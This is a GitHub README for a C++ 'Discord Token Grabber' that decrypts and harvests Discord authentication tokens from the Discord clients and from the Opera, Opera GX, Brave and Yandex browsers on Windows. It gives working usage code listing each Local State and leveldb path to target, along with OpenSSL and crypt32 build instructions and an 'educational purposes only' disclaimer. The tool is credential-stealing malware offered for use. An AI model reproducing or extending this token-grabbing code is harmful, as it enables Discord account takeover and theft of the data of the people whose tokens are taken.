 # 🟩 Discord Token Grabber 🟩 <a href="https://github.com/yurtrimu/discord-token-grabber/actions/workflows/main.yml"><img src="https://github.com/yurtrimu/discord-token-grabber/actions/workflows/main.yml/badge.svg" alt="Working"></a>

## **A lightweight library-kind of project that can grab discord's decrypted tokens from discord applications and chromium browsers.**

# Questions?
### - **I gladly answer your questions on the [discord server](https://discord.gg/QBhFd2aK4r).**

## Usage

```cpp
#include "TokenGrabber.hpp"

int main()
{
    // Check operating system
    if (!utils::console::is_windows()) {
        printf("The operating system has to be Windows NT\n");
        exit(EXIT_FAILURE);
    }

    // Here are the environmental variables
    std::string localappdata, appdata;
    utils::string::safe_getenv("LOCALAPPDATA", localappdata);
    utils::string::safe_getenv("APPDATA", appdata);

    // Define the paths from discord and from any chromium browsers 
    // First string is local state file's path and the second is leveldb folder's path
    std::vector<std::pair<std::string, std::string>> path_list;
    path_list.push_back(std::make_pair<std::string, std::string>(appdata + "\\discord\\Local State", appdata + "\\Discord\\Local Storage\\leveldb"));
    path_list.push_back(std::make_pair<std::string, std::string>(appdata + "\\discordcanary\\Local State", appdata + "\\discordcanary\\Local Storage\\leveldb"));
    path_list.push_back(std::make_pair<std::string, std::string>(appdata + "\\discordptb\\Local State", appdata + "\\discordptb\\Local Storage\\leveldb"));
    path_list.push_back(std::make_pair<std::string, std::string>(appdata + "\\Opera Software\\Opera Stable\\Local State", appdata + "\\Opera Software\\Opera Stable\\Local Storage\\leveldb"));
    path_list.push_back(std::make_pair<std::string, std::string>(appdata + "\\Opera Software\\Opera GX Stable\\Local State", appdata + "\\Opera Software\\Opera GX Stable\\Local Storage\\leveldb"));
    path_list.push_back(std::make_pair<std::string, std::string>(localappdata + "\\BraveSoftware\\Brave-Browser\\User Data\\Local State", localappdata + "\\BraveSoftware\\Brave-Browser\\User Data\\Default\\Local Storage\\leveldb"));
    path_list.push_back(std::make_pair<std::string, std::string>(localappdata + "\\Yandex\\YandexBrowser\\User Data\\Local State", localappdata + "\\Yandex\\YandexBrowser\\User Data\\Default\\Local Storage\\leveldb"));
    

    // Define the Grabber
    TokenGrabber Grabber(path_list);

    // Initialize the Grabber
    Grabber.initialize();

    // Obtain the tokens from the specified paths
    std::vector<std::string> token_list = Grabber.collect_tokens();

    // Print the tokens
    for (const std::string &token : token_list) {

        if (token.empty()) { continue; }

        std::cout << "--------------------\n\n";
        std::cout << "Token: " << token << "\n";
        std::cout << "\n--------------------\n\n";
    }
}
```

## Example.png

![alt text](https://github.com/yurtrimu/discord-token-grabber/blob/main/example.png?raw=true)

## Operating System
- **Below Windows 7 - 🟦 Untested**
- **Windows 7 - 🟦 Untested**
- **Windows 10 - 🟩 Working**
- **Windows 11 - 🟦 Untested**
- **Mac OS - 🟥 Not Working**
- **Linux - 🟥 Not Working**

## Requirements

**You need to have the OpenSSL library installed and linked to your compiler.**

- You could download the OpenSSL library from [OpenSSL website](https://www.openssl.org/source/).

## Linker
- **libssl.lib**
- **libcrypto.lib**
- **crypt32.lib**


## Compiling

- **Build - 🟦 Untested**
- **Release - 🟩 Working**
- **C++17 or below - 🟥 Not Working**
- **C++20 - 🟩 Working**

## Contributing

**Pull requests are welcome.**

## Legal Disclaimer
🟥 **The content provided is for educational and informational purposes only.** 🟥
